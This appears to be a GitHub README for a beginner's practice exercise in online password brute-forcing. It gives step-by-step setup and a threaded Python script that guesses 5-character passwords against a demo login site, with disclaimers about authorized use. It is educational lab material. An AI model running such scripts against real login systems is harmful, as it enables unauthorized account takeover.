 # Bruteforce-using-Python

A brute force attack is a great way to guess the password. Hackers are always using all possible combinations to guess the correct login info. Here I create a python script, where I can find passwords from a website. In this project I know the user name which is "username" and the password is 5 letters, however, I don't the password. So my job here is to create a random password where I used some common combination of letters and numbers. Here is my plan before I start this project: 

First, Look for a vulnerable website that is authorized to hack. If I can't either create a basic login website or use Metasploit.

Second, use windows instead of macOS. It has more functions and is easy to use. Especially "Metasploit" only works on Windows and Linux machines.

Third, Install python in my system.

Fourth, work on a python code that can generate random letters or numbers. 

Disclaimer: Please don't use this on an actual website. Because this is not what an ethical hacker does. You can just use it just for practice or learning. This is totally illegal, you might get charged for this. So, my advice will be to use this on your created login environment or the best way to practice is "Metasploit". Which creates a vulnerable website to play around it. 

Before I'm going to start I need a login website where I can hack ethically. So I choose this website: 
![Screen Shot 2022-05-07 at 5 22 24 PM](https://user-images.githubusercontent.com/93491482/167317020-c1af716e-6a2c-4a77-982c-024160f7b75e.png)

Then click right side on your mouse then click "Inspect"
![Screenshot 2022-05-08 17 30 37](https://user-images.githubusercontent.com/93491482/167319390-229f3873-9868-40ef-839f-dad6cefa07a9.png)


On the top you will find "Network" option. If you don't click on ">>" and select on "Network" menu. After that, definetly you are not goning to see anything it will empty. 
![Screenshot 2022-05-08 17 44 02](https://user-images.githubusercontent.com/93491482/167319398-270c4900-0fd5-4a8a-bc55-afba31cd4439.png)


Now, You can use any username and password and try to log in. Then the website will say "Failed to login!" and you can see in "Inspect" file, under the "Name" section it calls "confirm-login". Click and you will see there are some subcategories called - "General, Response, Response Headers". In the General category, you will copy the "Request URL". This is your target machine/website. [Note: to check you used username and password click on payload, you will see the username and password you just used to check the website]
![Screenshot 2022-05-08 17 50 48](https://user-images.githubusercontent.com/93491482/167319412-b7b196a8-a2cb-4eb6-91cf-5f1878067115.png)


## Python Install

We need a python in our system. As I'm using windows, so I will be install python in my windows. 
Go to this website: https://www.python.org/ and Download this file. It will generate your OS device. 
![Screenshot 2022-05-08 18 01 25](https://user-images.githubusercontent.com/93491482/167319420-d88ca0c2-fa4a-4f97-9fdb-b4715aefbf6b.png)


When you are istalling python try to keep this is your C:/ drive. It will easy to use it. Trust me. 
The best way to install python just follow this: https://www.youtube.com/watch?v=bCY4D9n3Pew&t=55s youtube video it will helps a lot. 

## cmd Prompt or Terminal 

Now open to cmd prompt or your terminal and go to your python install directory then type 
```
pip install requests
```
![59AE2604-583E-41AF-B39C-401403830C9A](https://user-images.githubusercontent.com/93491482/167319431-c96c81e2-3486-4f40-9d7f-5583e0101b29.JPG)

If you don't have pip installed in your OS device then you can use this before install requests
```
python get-pip.py
```
## Python Editor
in your isntalled apps search for python editor which is "IDLE(Python 3.10.64-bit)"
![Screenshot 2022-05-08 18 18 11](https://user-images.githubusercontent.com/93491482/167319459-578626b2-76a3-469b-9b4c-fbe6b73d707e.png)


After it opens it, save it as the Name You want to but at end use .py word. Like I save it in my Desktop folder and name it bruteforce.py
![Screenshot 2022-05-08 18 21 11](https://user-images.githubusercontent.com/93491482/167319470-503467bb-720c-43dc-9158-042c83fce8e4.png)


After you save it open the file. 

## Check Python Requests Code
```
import requests
url = " https://requestswebsite.notanothercoder.repl.co/confirm-login"

def send_request(username, password):
    data = {
        "username" : username,
        "password" : password
    }
    
    r = requests.get(url, data=data)
    print(r.text)
```
![Screenshot 2022-05-08 18 29 39](https://user-images.githubusercontent.com/93491482/167319479-6f06e007-3fcb-4fc4-a265-4d86f6d957ee.png)


Then click "Run" >> Run Module >> from the top bar or press f5
![Screenshot 2022-05-08 18 31 43](https://user-images.githubusercontent.com/93491482/167319483-0a15add6-5417-43fb-b086-91e5d8f78a1e.png)


Then the will be "IDLE Shell" interface will be pop-up.
![Screenshot 2022-05-08 18 32 50](https://user-images.githubusercontent.com/93491482/167319493-3a3e85ba-76c8-4be5-bfda-03904db637ce.png)


Type
```
send_request("hi","hi")
```
as I used hi as my username and password so it. will say in a blue color that "Failed to login!". If it shows "Failed to login!" that means it request is working. 
![Screenshot 2022-05-08 18 35 22](https://user-images.githubusercontent.com/93491482/167319506-0d93f829-ec8b-4494-b26c-5b67e6ce9f9b.png)



## Python Code

```
import requests
import random
from threading import Thread
import os

url = "https://requestswebsite.notanothercoder.repl.co/confirm-login"
username = 'username'


def send_request (username, password):
    data = {
        "username" : username,
        "password" : password
    }
    r = requests.get(url, data=data)
    print(r.text)
    return r

chars = "abcdefghijklmnopqrstuvwxyz0123456789"

def main():
    while True:
        if "correct_pass.txt" in os.listdir():
            break
        valid = False
        while not valid:
            rndpasswd = random.choices(chars, k=5)
            passwd = "".join(rndpasswd)
            file = open("tries.txt", 'r')
            tries = file.read()
            file.close()
            if passwd in tries:
                pass
            else:
                valid = True
            
        r = send_request(username, passwd)

        if 'failed to login' in r.text.lower():
            with open("tries.txt", "a") as f:
                f.write(f"{passwd}\n")
                f.close()
            print(f"Incorrect {passwd}\n")
        else:
            print(f"Correct Password {passwd}!\n")
            with open("correct_pass.txt", "w") as f:
                f.write(passwd)
            break


for x in range(20):
    Thread(target=main).start()
```                                  
 
## Run Python Code
Now my whole python code is ready to use. But before I hit the run key, I have to make a file called tries.txt and it will be in the same directory as bruteforce.py. In my case as I saved the bruteforce.py file in Desktop so I create a text file on the desktop. And called as tries.txt
![Screenshot 2022-05-08 18 44 03](https://user-images.githubusercontent.com/93491482/167319525-f339b4b7-24a3-42cc-826c-4f59c14e84f6.png)


Run it using f5 on your keyboard or click Run from the tab >> Run Module
![Screenshot 2022-05-08 18 40 59](https://user-images.githubusercontent.com/93491482/167319534-67aba223-0fe2-42f1-9757-8ac8c00ab8b2.png)


"IDLE Shell" file will be open automatically and it shows a bunch of Incorrect password combinations. It probably takes 2-3 mins(take for your tea break). Then this loop will stop after it finds the correct password.
![Screenshot 2022-05-08 17 05 55](https://user-images.githubusercontent.com/93491482/167319548-9e722e89-e232-4158-998b-cb5791fd72d1.png)

and if you open the tries.txt file, you can see lots of failed password combinations. Mine was 16511 wrong password. 
![Screenshot 2022-05-08 18 52 44](https://user-images.githubusercontent.com/93491482/167319566-0fbbb43a-4697-4dd5-a5a8-c98a2a818184.png)

the correct password will be found in the same folder where your bruteforce.py and .tries.txt file was created. And it will create a .txt file for you whose name is correct_pass.txt. 
If you open the correct_pass.txt, you will see the correct password.
![Screenshot 2022-05-08 17 05 30](https://user-images.githubusercontent.com/93491482/167319560-8af87d61-bf32-4ef8-b347-2b13901254de.png)


##### Congratulations!! After straight two days of work Successfully I can crack the password. 

# Note: Please, Please don't use it on the actual website. It not only just damages the victim, but it will damage you. 
